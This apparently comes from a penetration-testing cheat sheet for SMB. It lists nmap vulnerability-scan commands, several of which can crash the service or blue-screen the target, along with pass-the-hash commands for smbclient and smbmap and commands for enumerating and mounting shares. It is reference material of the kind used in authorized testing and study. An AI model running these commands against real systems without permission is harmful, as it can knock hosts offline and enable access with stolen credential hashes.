 ```yaml
---
layout: default
title: SMB
tags:
    - 139
    - 445
    - block
    - message
    - samba
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# SMB
## Nmap scripts
Safe vulnerability scan
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 <ip>
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-regsvc-dos <ip>
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-cve2009-3103 <ip>
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms10-054 <ip>
```

## Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L <ip>
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H <ip>
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //<ip>/<directory>
```

## Regular usage
Mount
```shell
mount -t cifs -o username=<username> //<ip>/ /mnt/smb/
```

SMBMap
```shell
smbmap -H <ip>
```

```shell
smbmap -H <ip> -u <username> 
```
- Sometimes adding anything to the `-u` field will return results